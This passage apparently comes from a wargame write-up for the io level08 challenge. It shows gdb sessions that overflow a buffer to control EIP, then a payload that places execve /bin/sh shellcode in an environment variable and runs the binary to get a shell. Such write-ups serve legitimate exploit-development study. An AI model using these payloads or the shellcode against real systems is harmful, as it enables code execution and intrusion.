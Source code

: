 ```sh
(gdb) !echo "obase=16;ibase=16;804A008+4"|bc
804A00C
(gdb) r $(python -c 'print "A" * 108 + "\x0c\xa0\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level08 $(python -c 'print "A" * 108 + "\x0c\xa0\x04\x08"')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) i r
eax            0x804a078	134520952
ecx            0x0	0
edx            0x41414141	1094795585
ebx            0x804a078	134520952
esp            0xbffffc1c	0xbffffc1c
ebp            0xbffffc58	0xbffffc58
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10202	[ IF RF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) r $(python -c 'print "CCCC" + "A" * 104 + "\x0c\xa0\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level08 $(python -c 'print "CCCC" + "A" * 104 + "\x0c\xa0\x04\x08"')

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb)
```

So now we are in control of EIP :)

```sh
level8@io:/levels$ export EGG=$(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\xeb\x06\x5b\x51\x53\x5b\xcd\x80\xe8\xf5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
level8@io:/levels$ /tmp/desdic1/getenv EGG /levels/level08
EGG will be at 0xbffffeca
level8@io:/levels$ /levels/level08 $(python -c 'print "\xca\xfe\xff\xbf" + "A" * 104 + "\x0c\xa0\x04\x08"')
bash-4.2$ whoami
level8
```

hmm got a shell but I'm still level8 so .. lets try to use the shellcode from [Aleph One](http://insecure.org/stf/smashstack.html)
